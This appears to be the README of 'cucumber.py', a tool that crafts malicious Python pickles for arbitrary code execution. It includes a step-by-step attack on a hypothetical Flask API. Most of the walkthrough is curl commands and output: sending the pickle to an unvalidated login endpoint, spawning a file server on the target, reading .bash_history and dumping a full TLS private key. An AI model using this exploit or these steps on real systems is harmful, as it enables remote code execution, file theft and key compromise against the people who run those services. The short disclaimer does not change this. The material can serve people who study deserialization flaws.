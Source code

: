 # cucumber.py
---

cucumber.py, ACE via Python pickle unpacking. Written by
Oelin <me.oelin@gmail.com>.

### Command

```
cucumber.py [path]
```
 
### Description

This script exploits features of Python's popular serialisation library, pickle, in such a way as to cause the execution of arbitrary code by programs at run-time. Simply specify the path to a file containing Python source code. An exploitative pickle serialisation will then be written to stdout (ouput). If another Python program attempts to unpack this
serialisation, the original code given will be executed. Note that this script should only be used for demonstratory purposes. It is not a security hacking tool!

### Usage

In the following example, a script to start a HTTP web server on port 8000 is crafted into a pickle serialisation. When subject to `pickle.loads()` (i.e by a vulnerable program), the script will be executed. The script can also be found in this repository at
`./scripts/httpd.py`.

```
$ ls
httpd.py
$ ./cucumber.py httpd.py > httpd.pickle
$ ls
httpd.py httpd.pickle
```
After an exploitative serialisation has been created, it can be used to audit target programs for vulnerabilities, namely those which do not perform adequate input validation. Shown below, is a hypothetical scenareo where an attacker manages to obtain the private TLS key of a Flask web server. The API endpoint `/login` does not provide validation of input data yet at some point invokes `pickle.loads()` on said data. By sending `httpd.pickle` as input, the endpoint will readily transfers control to the malicious script. The attacker may then connect over port 8000 to read arbitrary files on the target machine, including private ones.

```
$ curl https://api.alice.com/robots.txt
User-agent: *
Disallow: /users
Allow: /login
Disallow: /login?u=*
Allow: /search

$ curl https://api.alice.com/login?u=bob
{"state": "error", "reason": "base64 decode error"}

$ user=`echo bob | base64`
$ curl https://api.alice.com/login?u=$user
{"state": "error", "reason": "unpickling failed"}

$ user=`cat httpd.pickle`
$ curl https://api.alice.com/login?u=$user

...

^C
$ curl -I http://api.alice.com:8000/
HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.6.7
Date: Thu, 28 Mar 2019 20:31:13 GMT
Content-type: text/html; charset=utf-8
Content-Length: 1907

$ curl http://api.alice.com:8000/.bash_history
.
.
.
ls
find . | grep 'key.pem'
cd /srv/http/alice.com/backup/tls
cat key.pem
vim
cd ~
.
.
.

$ curl http://api.alice.com:8000/srv/http/alice.com/backup/tls/key.pem
-----BEGIN PRIVATE KEY-----
MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQChTcy8+upAE3Nh
IGgpscmgMJaUR4PLyFxFbKNSXhSZwCEL27FtZEInRa9jcNYb4t4y272Z1xcHC311
x/JxBcOQ0EfMQmTmQP0jvfKQNA7TI4HOIKPsLS7GREtTZveqU1R7lNYR/fzhKmfn
ZELWE4PMbXelkalbuAzXbS1wo14M7T6U3kPXTbaatyIezTWCYnXJZhkK8vIszPnv
dn2Xo2i0H5NKOz5MKeUuZ3D++BawxlSQaGKiGrwvm+WCjD9BvncluMSbjwYmgXnM
l8+a1PDNPzY3s/TVoEKErNxox3jxu4HpWf70jF5soBK5yGde9s5RaYLSHQwf8969
crwx+6krAgMBAAECggEANn6vRcVLcJxhpZWqOzPaV2ky5iOHDkjBi57ZSpGISi1T
vMrbFYcCpnvvdhv/6enqgaolUx0MpY+nMix75t04pesH5qUjq3qXSwT4NumvfHuJ
dhcm6jqVi9w0ypeF4qBGcX3mGKwDTBrkgZMo1WRAacct3dzpJ5h1li5HZL98ncbb
onZwGKcGoAR4rfT0r+ijOs499OgGq3mRTceLK+PX0qnNU30B/IhwAvuSfKN4IiRH
d88tB+ZaasO+ZMTK8aEuM0GAgIl7OJLDswWaM2+AwawNrOyUaYHNSoQ0OPYc4/l7
CaoP6/ITnv5UrGGVKZbqVEo2YgGkHEDq7nPVc/flwQKBgQDU3cEv4q6Soue4ggwl
C5DlxHAu76ffQ55sU9L1IBUPS22Mf1td35CIVH5+Dj1Z9i3iSdACdFGs2NFxUGhC
CGICP41Uf5GG8YvcQh4KKJRTWeLLCr9RY4gK5vWeQE31JlzK18MfcrCXR058e+jA
MmQO6ZwG8OrxaZ6UsywvmNOXiwKBgQDB/UuwxgBOeGqGFdCzWtWMydNkbwEUjvho
3uL8wVWso8th+Bc1SPKd9wpEF+oZT/mhtvYc38JB9Q2eAri6uYEWfPrMXTmE9tje
U6TZhJf0Qg/NmATqCzkCmXSFIBaRFBSrlfD+fniFWw+GI4gntbNjjXFwxwHF0san
sK6uFblo4QKBgQCqlVbmb+rkGeZGJvliioVAjA42ntlRgtenCfmpdF9MFW8hw0HN
1YX2qnd/vxuNR0n36JzoCp0VPd+BxiT2nc8k7BbvGxfdIx6okNeP3nsW3JZxjhhJ
OdDgo7s7aV7P0UFVUFjOj9NSN9N+0LFxrDAg/zaJHXG5qqFpmrgTII6YBwKBgEs2
rFwzyPaj1Zl7Z9nChD38Gsw8Bc00ybfPg27AfzlaoIaxrD3qtLbui7pvE0MRMRa0
W6RCVY1BODBlmb48IoLXnl4SXzTgiKFbCPWVZV09J+ds46rjAw2w9e6PzHAfuwv0
LOZfntcFwXUe3bGXz5/vvWYeot9So9dst62jmqnBAoGBAJaCzGZ+/R3ndaAWLrzY
L2wlhdVMMdQ+CkLCgomaEVHvAgnxFXPCyLMslCw55DwJTqLZUnkZ+0ME1fywHxkU
vefy74c1qNFFi6JId3zkjFnTK0b+o1JsLLE9CFUOsJfOQuHDgCDMwSadcO6cdkxp
69cRB+4sChk3oWcFv7E8/euY
-----END PRIVATE KEY-----
$
$ Alice has been pwnd!
```
